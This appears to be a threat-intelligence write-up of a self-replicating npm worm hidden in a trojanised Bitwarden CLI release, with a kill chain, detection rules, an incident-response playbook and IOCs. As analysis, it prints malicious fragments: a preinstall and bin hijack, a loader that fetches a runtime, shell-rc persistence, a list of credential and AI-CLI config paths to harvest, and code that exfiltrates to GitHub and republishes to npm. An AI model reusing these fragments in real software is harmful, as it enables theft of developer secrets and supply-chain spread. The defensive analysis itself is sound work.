

# Shai-Hulud: The Third Coming — Bitwarden CLI 2026.4.0 trojanised npm worm

## TL;DR

Between 17:57 and 19:30 ET on 22 April 2026 (~93 minutes), the npm registry served a malicious `@bitwarden/cli@2026.4.0` whose `package.json` `preinstall` and `bin` entries pointed to a downloader called `bw_setup.js`. That stub pulled the **Bun** runtime from GitHub (only if it was not already present) and executed `bw1.js` — a ~10 MB single-line obfuscated worm. The worm harvests GitHub and npm tokens, SSH keys, shell histories, AWS / GCP / Azure secrets, GitHub Actions secrets and — *novel for this generation* — the local config directories of AI coding CLIs (Claude Code, OpenAI Codex CLI, Cursor, Gemini CLI). Exfil is AES-256-GCM and lands in **public GitHub repos created under the victim's own account** with a `Shai-Hulud: The Third Coming` README marker. A secondary look-alike C2 sits at `audit.checkmarx[.]cx/v1/telemetry`. Where an `NPM_TOKEN` with publish scope is found, the worm enumerates the maintainer's other packages and self-replicates by bumping versions and republishing with the same loader. Bitwarden vault data was not exposed — the target is developer and CI hosts.

## Attribution and confidence

- **Cluster (JFrog / Socket / Endor Labs):** **TeamPCP**, the same e-crime cluster behind the Shai-Hulud lineage. *Medium-high* confidence on the cluster, *low* on real-world identities. No nation-state nexus.
- **Vendor that discovered:** JFrog Security Research, with parallel disclosure from Socket and Endor Labs and the Bitwarden security advisory. Disclosure 22–23 April 2026.
- **Genealogy:** the third iteration of the Shai-Hulud worm family. Previous waves: original Shai-Hulud (Aug 2025), Shai-Hulud Second Coming (Mar 2026). This one introduces the AI-CLI config theft surface and the public-GitHub-repo dead-drop exfil pattern.
- **Victimology:** developers and CI pipelines consuming `@bitwarden/cli` plus the parallel Checkmarx chain (KICS Docker, ast-github-action, Checkmarx VS Code extensions). Geographic spread is global — npm has no regional gating.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial Access | T1195.002 | Compromise of the `@bitwarden/cli` publishing pipeline (likely maintainer phishing or credential reuse from the parallel Checkmarx breach) |
| Execution | T1204.002, T1059.007 | `preinstall` and `bin` redirect to `bw_setup.js` on `npm install -g @bitwarden/cli` or any future `bw` invocation |
| Defence Evasion | T1027 | `bw1.js` ships as ~10 MB single-line minified obfuscator-style code with `__decodeScrambled(idx, seed=0x3039)` string-decoder |
| Persistence | T1546.004 | Appended lines in `~/.bashrc` / `~/.zshrc` + lock file `/tmp/tmp.987654321.lock` |
| Credential Access | T1552.001, T1552.005, T1528 | Walks `~/.aws/`, `~/.config/gcloud/`, `~/.azure/`, `~/.ssh/`, `.npmrc`, `.gitconfig`, `.netrc`, env vars (`GITHUB_TOKEN`, `NPM_TOKEN`, `NODE_AUTH_TOKEN`), Docker / Kube configs, **AI-CLI configs** (`~/.claude/`, `~/.codex/`, `~/.cursor/`, `~/.gemini/`) |
| Discovery | T1083 | Recursive home walk + TruffleHog scan for embedded secrets |
| Collection | T1005 | Staged AES-256-GCM-encrypted blob at `~/.cache/bw_data.bin` |
| Command and Control | T1102 | Look-alike domain `audit.checkmarx[.]cx/v1/telemetry` (TLD `.cx`, Christmas Island) |
| Exfiltration | T1567.001 | Public GitHub repo created under victim account, blob pushed as `data.json`, README `Shai-Hulud: The Third Coming` |
| Self-replication | T1195.002 (recursive) | If `NPM_TOKEN` has publish scope, enumerates maintainer packages, bumps versions, republishes with the same loader |
| Impact | T1531 | Implicit account-access removal via token rotation by the worm during republish |



The diagram shows the developer or CI host on the left (numbered stages from the npm install through self-replication) and the dual exfil fabric on the right: the victim-owned GitHub repos as the primary dead-drop channel and the Checkmarx look-alike domain as the telemetry channel. The detection-anchors box at the bottom enumerates the sigma, kql and yara rules that catch the chain.

## Stage-by-stage detail

### Initial Access

JFrog reports the compromise of the `@bitwarden/cli` publishing pipeline. The most likely vector is maintainer phishing — possibly reusing credentials harvested from the parallel Checkmarx supply-chain breach in the same week. T1195.002.

### Execution

The malicious `package.json` weaponises both the `preinstall` hook and the `bin` entry:

```json
{
  "scripts": { "preinstall": "node bw_setup.js" },
  "bin":     { "bw": "./bw_setup.js" }
}
```

Either `npm install -g @bitwarden/cli` or any future `bw` invocation detonates the loader. The loader is intentionally small:

```js
const { execSync, spawnSync } = require('child_process');
function ensureBun() { /* curl bun.sh/install if missing */ }
const bun = ensureBun();
spawnSync(bun, ['bw1.js'], { detached: true, stdio: 'ignore' });
require('./node_modules/@bitwarden/cli-real/build/bw.js');  // pass-through to the legit binary
```

Bun is chosen for three reasons: better performance, bypass of Node ESM hooks and `--require` instrumentation, and obfuscation of the npm lifecycle audit trail. T1204.002, T1059.007.

### Defence Evasion

`bw1.js` is a ~10 MB single-line minified file, packed with an obfuscator.io-style transform. The string decoder is a single helper `__decodeScrambled(idx, seed=0x3039)`, which is the key static anchor for any analyst trying to recover the in-band IOCs (the C2 domain, the repo template names, the env-var allow-list). T1027.

### Persistence

```bash
# Appended to ~/.bashrc / ~/.zshrc (idempotent check)
if [ -f ~/.cache/bw_data.bin ] && [ -z "$BW_SEEN" ]; then
  export BW_SEEN=1
  ( ~/.bun/bin/bun ~/.cache/bw1.js >/dev/null 2>&1 & )
fi
```

A lock file at `/tmp/tmp.987654321.lock` ensures single-instance per host. T1546.004.

### Credential Access

The walk targets, in order:

```
~/.bash_history, ~/.zsh_history
~/.gitconfig, ~/.netrc, ~/.ssh/*
~/.npmrc
~/.aws/credentials, ~/.aws/config
~/.config/gcloud/credentials.db
~/.azure/, AZURE_* env vars
${GITHUB_TOKEN}, ${NPM_TOKEN}, ${NODE_AUTH_TOKEN}
~/.docker/config.json, ~/.kube/config
~/.claude/**, ~/.codex/**, ~/.cursor/**, ~/.gemini/**   ← novel for 2026
```

TruffleHog is embedded as a JavaScript port for in-band secret-pattern scanning. T1552.001, T1552.005, T1528.

### Discovery and Collection

Recursive home walk staged into `~/.cache/bw_data.bin` as a single AES-256-GCM-encrypted blob. T1083, T1005.

### Command and Control

The look-alike telemetry endpoint is `audit.checkmarx[.]cx/v1/telemetry`. The `.cx` TLD (Christmas Island) is the key tell: `checkmarx.com` is the legitimate domain. T1102.

### Exfiltration

The worm uses the *victim's own GitHub token* to create a new public repository and push the blob:

```js
const repo = await gh_create_repo("public-archive-" + uuid());
await gh_push(repo, "data.json", aesGcmBlob);
await gh_push(repo, "README.md", "Shai-Hulud: The Third Coming");
```

This is the high-signal anchor — the network destination is `github.com`, indistinguishable from legitimate developer traffic; the only forensic anchor is the victim's GitHub audit log showing a public-repo create. T1567.001.

### Self-replication

```js
if (env.NPM_TOKEN) {
  const pkgs = await npm_get_packages_by_maintainer(env.NPM_TOKEN);
  for (const p of pkgs) {
    await npm_inject_loader(p);
    await npm_bump_version(p);
    await npm_publish(p, env.NPM_TOKEN);
  }
}
```

T1195.002 (recursive).

## RE notes

| Component | Language | Notes |
|---|---|---|
| `bw_setup.js` | Node.js (small) | Bun-fetch + spawn `bw1.js`; pass-through to real `bw` |
| `bw1.js` | ~10 MB single-line | obfuscator.io-style packer; `__decodeScrambled(idx, seed=0x3039)` |

The internal dispatch table inside `bw1.js` is opcode-driven: `ENV_SCAN`, `FS_WALK`, `TRUFFLEHOG`, `AES_GCM_ENC`, `GH_REPO_CREATE`, `GH_PUSH`, `NPM_GET_PKGS`, `NPM_PUBLISH`, `BASH_PROFILE_PERSIST`. Crypto: AES-256-GCM with a 12-byte random IV; key derived via HKDF-SHA256 over an embedded seed plus the host's machine hash.

Operational reverser notes: feed the ~10 MB single line through `js-beautify` first; locate the dispatcher table (it is the only structure with branches that match `ENV_SCAN`-style identifiers); fix the seed `0x3039` and dump every `__decodeScrambled` call site for in-band strings.

## Detection strategy

### Telemetry that matters

- **Sysmon EID 1** (process_creation): `npm` / `yarn` / `pnpm` / `node` parents spawning `curl` / `wget` / `bun` / `sh` / `bash` / `zsh` / `powershell` / `pwsh`.
- **Sysmon EID 11** (file_event): writes to `~/.bashrc`, `~/.zshrc`, `~/.cache/bw_data.bin`, `/tmp/tmp.987654321.lock`.
- **GitHub Audit Log**: `repo.create` with visibility `public` from a personal access token whose owner has never published a public repo before.
- **DNS / proxy**: lookups for `audit.checkmarx.cx` (note the `.cx` TLD, not `.com`).
- **npm registry audit logs**: `npm publish` from a non-CI source IP for a package the maintainer has not touched in months.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [sigma/npm_lifecycle_network_egress.yml](./sigma/npm_lifecycle_network_egress.yml) | npm / yarn / pnpm install lifecycle script spawning `curl`, `wget`, `bun` or any shell — covers Bun fetch + payload kick-off |
| KQL | [kql/github_repo_create_shai_hulud.kql](./kql/github_repo_create_shai_hulud.kql) | Sentinel — anomalous GitHub Audit `repo.create` with public visibility from a user with no prior public-repo activity |
| YARA | [yara/ShaiHulud_BunLoader_Heuristic.yar](./yara/ShaiHulud_BunLoader_Heuristic.yar) | Bun-loader heuristic — `__decodeScrambled` helper, seed `0x3039`, `Shai-Hulud: The Third Coming` marker, env-var allow-list strings |

### Threat hunting hypotheses

- **H1 — Lock file canary.** Any host that creates `/tmp/tmp.987654321.lock` is owned by this worm. The literal is distinctive.
- **H2 — AI CLI access from a foreign process.** Reads of `~/.claude/`, `~/.codex/`, `~/.cursor/`, `~/.gemini/` by a process whose image is not the matching CLI binary. Expected benign: editor / shell completion. Suspect: a Node or Bun parent.
- **H3 — `audit.checkmarx.cx` DNS resolution.** Any DNS query for `audit.checkmarx.cx` (not `.com`) is high-confidence Shai-Hulud telemetry.

## Incident response playbook

### First 60 minutes (triage)

1. **Revoke every developer token** observed on the affected host: GitHub PAT + fine-grained tokens, npm publish tokens, AWS / GCP / Azure CLI tokens, AI-CLI tokens.
2. List public repos created on the victim GitHub account in the last 14 days — any with `Shai-Hulud` in the README is malicious; do not delete yet (forensic chain-of-custody).
3. Pull and inspect `~/.cache/bw_data.bin` — the AES-256-GCM blob is the proof of what was harvested.
4. Quarantine the host network egress.
5. If `NPM_TOKEN` had publish scope, enumerate the maintainer's other packages and check published versions in the last 14 days.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Encrypted exfil blob | `~/.cache/bw_data.bin` | manual copy | What the worm staged |
| Shell rc persistence | `~/.bashrc`, `~/.zshrc` | manual diff | Confirm persistence appended |
| Lock file | `/tmp/tmp.987654321.lock` | manual | Single-instance marker |
| Bun runtime drop | `~/.bun/bin/bun` | manual | Worm runtime |
| npm publish history | `npm audit` + registry web UI | curl | Worm self-replication footprint |
| GitHub audit log | GitHub user settings → Security log | API | `repo.create` public events post-T0 |

### IR queries and commands

```bash
# Find Shai-Hulud markers across the dev host
grep -lr "Shai-Hulud" ~ 2>/dev/null
ls -la ~/.cache/bw_data.bin ~/.bun/bin/bun /tmp/tmp.987654321.lock 2>/dev/null

# Diff the shell rc files against a known-good template
diff <(grep -v '^#' ~/.bashrc | sort) <(grep -v '^#' ~/dotfiles/.bashrc.template | sort)

# Revoke all GitHub personal access tokens (requires gh + auth)
gh auth refresh -h github.com -s admin:org,delete_repo
gh api -X DELETE /user/tokens   # then re-issue least-privilege
```

```kql
// Sentinel — npm publish events from non-CI ASNs (custom log table)
NpmAudit_CL
| where ActionType == "publish"
| where SourceASN !in (<add_known_ci_asns>)
| project TimeGenerated, MaintainerUser, PackageName, PackageVersion, SourceIP, SourceASN
```

### Containment, eradication, recovery

- **Containment.** Revoke every token on the host, force-rotate the AD account, and quarantine the host network egress. Disable the maintainer's npm publish scope until investigation closes.
- **Eradication.** Reimage the dev host. The persistence in `~/.bashrc` and the Bun runtime in `~/.bun/` make a clean removal unreliable, especially if the worm completed a self-replication cycle.
- **Recovery.** Republish a clean `@bitwarden/cli` version under maintainer control (Bitwarden did this within ~3 hours). Push a hard advisory through the npm advisory channel.
- **What NOT to do.** Do not delete the malicious GitHub repos before forensic acquisition; do not assume an `--ignore-scripts` install was safe — the worm activates on the `bin` entry as well (`bw <anything>`).

### Recovery validation

Seven days without new public-repo creates from the maintainer's GitHub account, no new npm publishes from non-CI ASNs, no DNS resolutions for `audit.checkmarx.cx`, and Defender XDR telemetry back to baseline.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| package | `@bitwarden/cli@2026.4.0` | Trojanised package | high | Bitwarden advisory |
| domain | `audit.checkmarx[.]cx` | C2 look-alike telemetry endpoint | high | JFrog |
| ttp | `bw_setup.js` → `bun` → `bw1.js` (~10 MB minified) | Loader chain | high | JFrog |
| ttp | Public GitHub repo creation under victim account as exfil dead-drop | Exfil pattern | high | JFrog |
| marker | `"Shai-Hulud: The Third Coming"` in README of created repos | Branding marker | high | JFrog |
| path | `~/.cache/bw_data.bin` | AES-256-GCM staged blob | high | JFrog |
| path | `/tmp/tmp.987654321.lock` | Single-instance lock | high | JFrog |
| target | `~/.claude/`, `~/.codex/`, `~/.cursor/`, `~/.config/gemini-cli/` | AI-CLI configs (novel for 2026) | high | JFrog |
| target | `~/.aws/credentials`, `~/.config/gcloud/*`, `~/.azure/*` | Cloud creds | high | JFrog |
| target | `~/.ssh/id_*`, `.npmrc`, `.gitconfig` | SSH + CI creds | high | JFrog |
| note | No SHA-256 pinned in this folder | Pull from JFrog feed before blocking | — | — |

Full IOC set in [iocs.csv](./iocs.csv).

## Secondary findings

- **DPRK BlueNoroff / Lazarus — KelpDAO heist USD 290M** with typosquatted Zoom + Calendly + ClickFix lures. Parallel social-engineering campaign, contrasts with the supply-chain primary vector.
- **Lazarus Contagious Interview campaign** — BeaverTail / OtterCookie / InvisibleFerret stealers; estimated ~USD 12M stolen in Q1 2026 alone.
- **CVE-2026-32201 SharePoint zero-day** — CISA KEV add, deadline 28 April 2026 for federal agencies.

## Pedagogical anchors

- `npm install --ignore-scripts` is **not sufficient** when the trojan also weaponises the `bin` entry. The worm detonates on any future `bw <subcommand>` invocation.
- **AI-CLI config theft is now a first-class supply-chain primitive.** Treat `~/.claude/`, `~/.codex/`, `~/.cursor/`, `~/.gemini/` as credential stores in your detection and response model.
- **Exfil via the victim's own GitHub repos is indistinguishable from legitimate developer traffic at the network layer.** The only durable detection anchor is the GitHub Audit Log entry for `repo.create` with public visibility from a token owner who never publishes public repos.
- **Self-replicating npm worms close the dwell window to minutes.** The maintainer ecosystem becomes the radiation amplifier — defensive posture must include npm publish allow-lists per ASN / hostname.
- **Look-alike TLDs (`.cx` for `.com`)** stay alive in 2026 because most enterprise DNS filtering still treats unfamiliar TLDs permissively. Block them at the resolver, not at the firewall.

## What's in this folder

| File | Purpose |
|---|---|
| [README.md](./README.md) | This write-up |
| [kill_chain.svg](./kill_chain.svg) | Shai-Hulud Bitwarden kill-chain diagram, light/dark adaptive |
| [iocs.csv](./iocs.csv) | Machine-readable IOC list |
| [sigma/npm_lifecycle_network_egress.yml](./sigma/npm_lifecycle_network_egress.yml) | npm / yarn install lifecycle spawning network or shell tools |
| [kql/github_repo_create_shai_hulud.kql](./kql/github_repo_create_shai_hulud.kql) | Sentinel — anomalous public `repo.create` from token owner |
| [yara/ShaiHulud_BunLoader_Heuristic.yar](./yara/ShaiHulud_BunLoader_Heuristic.yar) | Bun-loader heuristic — `__decodeScrambled`, seed `0x3039`, marker string |

## Sources

- [Shai-Hulud: The Third Coming — JFrog Security Research](https://research.jfrog.com/post/shai-hulud-the-third-coming/)
- [@bitwarden/cli compromised on npm — Bitwarden Security Advisory](https://bitwarden.com/help/article/security-advisories/)
- [Socket — Bitwarden CLI supply chain attack analysis](https://socket.dev/blog/)
- [Endor Labs — Shai-Hulud worm tracker](https://www.endorlabs.com/learn/)
- [The Hacker News — Bitwarden CLI Compromised in Ongoing Checkmarx Supply Chain Campaign](https://thehackernews.com/2026/04/bitwarden-cli-compromised-in-ongoing.html)
- [MITRE ATT&CK — T1195.002 Compromise Software Supply Chain](https://attack.mitre.org/techniques/T1195/002/)
